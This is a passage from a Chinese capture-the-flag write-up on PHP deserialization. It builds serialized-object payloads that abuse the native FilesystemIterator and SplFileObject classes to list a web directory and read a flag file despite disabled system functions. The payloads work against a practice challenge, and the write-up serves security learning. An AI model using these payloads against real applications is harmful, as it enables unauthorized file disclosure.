 这个是一部分我们能利用的，而这道题我们就要用到它们。  

首先我们要读取目录，因为system()等函数无法使用，那么我们就使用FilesystemIterator这个原生类来历遍目录，那么我们这样构造pop：  

	<?php
	class A{
    public $class='FilesystemIterator';
    public $para="/var/www/html";
    public $check;
    }
	$o  = new A();
	echo serialize($o);
	?>  

构造payload:   

	/?pop=O:1:"A":3:{s:5:"class";s:18:"FilesystemIterator";s:4:"para";s:13:"/var/www/html";s:5:"check";N;}  

得到目录下文件  

[![](https://img.imgdb.cn/item/606dd6ae8322e6675c570362.png)](https://img.imgdb.cn/item/606dd6ae8322e6675c570362.png)  

flag就在这个文件夹中，名字使flag.php那么我们用SplFileObject	这个原生类构造pop链：  

	<?php
	class A{
    public $class='SplFileObject';
    public $para="/var/www/html/1aMaz1ng_y0u_c0Uld_f1nd_F1Ag_hErE/flag.php";
    public $check;
    }

	$o  = new A();
	echo serialize($o);
	?>  

构造payload：  

	/?pop=O:1:"A":3:{s:5:"class";s:13:"SplFileObject";s:4:"para";s:56:"/var/www/html/1aMaz1ng_y0u_c0Uld_f1nd_F1Ag_hErE/flag.php";s:5:"check";N;}   

得到flag。  

[![](https://img.imgdb.cn/item/606dd7618322e6675c57e9fc.png)](https://img.imgdb.cn/item/606dd7618322e6675c57e9fc.png)  

# 小结  

这道题给了我一个新的解决php反序列化题目的思路，那就是利用php中内置的原生类，当我们发现代码中没有什么危险函数时就可以考虑这个方法，这样就可以不通过危险函数也能读取文件内容。  

关于php原生类的题目目前遇到的还少，以后遇到再接着补充。  

附上原生类链接：  

[PHP标准库 (SPL)](https://www.php.net/manual/zh/book.spl.php)